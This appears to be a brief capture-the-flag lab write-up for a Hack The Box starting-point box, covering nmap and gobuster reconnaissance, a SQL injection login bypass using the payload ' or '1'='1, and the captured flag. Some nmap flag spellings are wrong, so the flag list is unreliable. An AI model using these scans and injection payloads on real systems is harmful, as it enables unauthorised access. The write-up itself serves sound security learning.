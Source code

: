 # TIER 1 STARTING POINT BOXES

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

--------------------------------------------------------------------

## APPOINTMENT BOX

**TOOLS USED**: nmap, gobuster

**IP Address**: 10.129.182.2

```
nmap -sC -sV -p- -oN nmap.txt 10.129.182.2
```

**EXPOSED PORT (SERVICE)**: 80 (http)

```
gobuster dir -u 10.129.182.2 -w /usr/share/dirb/wordlists/common.txt
```

10.129.182.2/js has a js file which shows we can do SQL injection

SQL Validation Query: SELECT * FROM users WHERE name=' ' and password=' '

user: ' or '1'='1 <br>
password: ' or '1'='1 <br>

FLAG: e3d0796d002a446c0e622226f42e9672
